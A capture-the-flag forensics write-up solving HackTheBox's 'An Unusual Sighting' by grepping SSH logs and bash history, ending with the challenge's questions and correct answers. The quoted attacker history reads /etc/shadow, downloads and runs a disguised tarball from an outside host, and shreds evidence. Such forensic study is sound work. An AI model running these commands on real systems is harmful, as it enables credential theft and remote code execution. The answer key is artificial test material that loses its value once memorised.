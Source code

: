 ```yaml
---
layout: post
title: "forensics anunusualsighting"
date: 2024-03-14 17:18:49 -0700
categories: ctfs
parent: HackTheBox - Apocalypse '24
grand_parent: CTF Events
event: "hackthebox-apocalypse"
tags:
  - pwn
  - ctf
---
```


## Forensics - An Unusual Sighting

During the capture the flag event, the primary focus was on analyzing two log files: `bash_history` and `sshd` files. The objective was to extract crucial information regarding a remote attacker's actions, specifically those related to logging into a server and executing commands.

To get the prompts and answer the questions, simply `nc <htbip> <htbport>`

### 1. Identifying SSH Server IP Address and Port
The initial task involved determining the IP address and port of the SSH server, which could be derived from the SSH logs. By parsing the SSH logs for data referencing "on" and "port", we successfully obtained the required information.

```sh
$cat sshd.log | grep -e "on.*port"
[2024-01-19 12:59:11] Server listening on 0.0.0.0 port 2221.
[2024-01-19 12:59:11] Server listening on :: port 2221.
[2024-01-28 15:24:23] Connection from 100.72.1.95 port 47721 on 100.107.36.130 port 2221 rdomain ""
```

### 2. Timestamp of First Successful Login
To ascertain the time of the first successful login, we scanned the SSH logs for the "Accepted password" field, which provided us with the timestamp of the initial successful login.

```sh
$cat sshd.log | grep -e "Accepted password"
[2024-02-13 11:29:50] Accepted password for root from 100.81.51.199 port 63172 ssh2 #<-- First accepted login
[2024-02-15 10:40:50] Accepted password for softdev from 101.111.18.92 port 44711 ssh2
[2024-02-15 18:51:50] Accepted password for softdev from 101.111.18.92 port 44711 ssh2
[2024-02-16 10:26:50] Accepted password for softdev from 100.86.71.224 port 58713 ssh2
[2024-02-19 04:00:14] Accepted password for root from 2.67.182.119 port 60071 ssh2
[2024-02-20 11:10:14] Accepted password for softdev from 100.87.190.253 port 63371 ssh2
[2024-02-21 10:49:50] Accepted password for softdev from 102.11.76.9 port 48875 ssh2
[2024-02-21 18:17:50] Accepted password for softdev from 100.7.98.129 port 47765 ssh2
[2024-02-22 12:07:14] Accepted password for softdev from 100.11.239.78 port 49811 ssh2
[2024-02-23 10:49:50] Accepted password for softdev from 102.11.76.9 port 48875 ssh2
```

### 3. Detecting Unusual Logins
An important aspect was identifying unusual logins. This required inferring information from the SSH logs, particularly by examining unfamiliar IP addresses. By scrutinizing the SSH logs for such IP addresses, we could pinpoint the time of the unusual login.

```sh
[2024-02-16 10:26:50] Accepted password for softdev from 100.86.71.224 port 58713 ssh2
[2024-02-19 04:00:14] Accepted password for root from 2.67.182.119 port 60071 ssh2 #<-- This is an odd IP in a sea of 100.87 IPs
[2024-02-20 11:10:14] Accepted password for softdev from 100.87.190.253 port 63371 ssh2
```

### 4. Extracting Attempted SSH Key Fingerprint
In our analysis, we also retrieved the attempted fingerprint from the SSH keys that were not accepted by the remote attacker, providing valuable insight into their attempted access methods.

```sh
$cat sshd.log | grep -e "2.67.182.119"
[2024-02-19 04:00:14] Connection from 2.67.182.119 port 60071 on 100.107.36.130 port 2221 rdomain ""
[2024-02-19 04:00:14] Failed publickey for root from 2.67.182.119 port 60071 ssh2: ECDSA SHA256:OPkBSs6okUKraq8pYo4XwwBg55QSo210F09FCe1-yj4 #<-- This is the odd fingerprint
[2024-02-19 04:00:14] Accepted password for root from 2.67.182.119 port 60071 ssh2
[2024-02-19 04:00:14] Starting session: shell on pts/2 for root from 2.67.182.119 port 60071 id 0
[2024-02-19 04:38:17] Received disconnect from 2.67.182.119 port 60071:11: disconnected by user
[2024-02-19 04:38:17] Disconnected from user root 2.67.182.119 port 60071
```

### 5. Analyzing Command Execution
The final steps involved analyzing the timeframe during which the attacker logged in, specifically focusing on odd hours to discern the commands executed. This approach enabled us to determine the commands executed by the attacker during the identified timeframe.

```sh
$cat bash_history.txt | grep "04:"
[2024-02-19 04:00:18] whoami #< This is the first command
[2024-02-19 04:00:20] uname -a
[2024-02-19 04:00:40] cat /etc/passwd
[2024-02-19 04:01:01] cat /etc/shadow
[2024-02-19 04:01:15] ps faux
[2024-02-19 04:02:27] wget https://gnu-packages.com/prebuilts/iproute2/latest.tar.gz -O /tmp/latest_iproute.tar.gz
[2024-02-19 04:10:02] tar xvf latest.tar.gz
[2024-02-19 04:12:02] shred -zu latest.tar.gz
[2024-02-19 04:14:02] ./setup #<-- This is the last command
```

### Putting it all together

```sh
[08:15:34] tokugero :: pangolin  ➜  apocalypse2024/forensics/anunusualsighting » nc 83.136.253.251 43398

+---------------------+---------------------------------------------------------------------------------------------------------------------+
|        Title        |                                                     Description                                                     |
+---------------------+---------------------------------------------------------------------------------------------------------------------+
| An unusual sighting |                        As the preparations come to an end, and The Fray draws near each day,                        |
|                     |             our newly established team has started work on refactoring the new CMS application for the competition. |
|                     |                  However, after some time we noticed that a lot of our work mysteriously has been disappearing!     |
|                     |                     We managed to extract the SSH Logs and the Bash History from our dev server in question.        |
|                     |               The faction that manages to uncover the perpetrator will have a massive bonus come the competition!   |
|                     |                                                                                                                     |
|                     |                                            Note: Operating Hours of Korp: 0900 - 1900                               |
+---------------------+---------------------------------------------------------------------------------------------------------------------+


Note 2: All timestamps are in the format they appear in the logs

What is the IP Address and Port of the SSH Server (IP:PORT)
> 100.107.36.130:2221
[+] Correct!

What time is the first successful Login
> 2024-02-13 11:29:50
[+] Correct!

What is the time of the unusual Login
> 2024-02-19 04:00:14
[+] Correct!

What is the Fingerprint of the attacker's public key
> OPkBSs6okUKraq8pYo4XwwBg55QSo210F09FCe1-yj4
[+] Correct!

What is the first command the attacker executed after logging in
> whoami
[+] Correct!

What is the final command the attacker executed before logging out
> ./setup
[+] Correct!

[+] Here is the flag: HTB{B3sT_<redacted>}
```
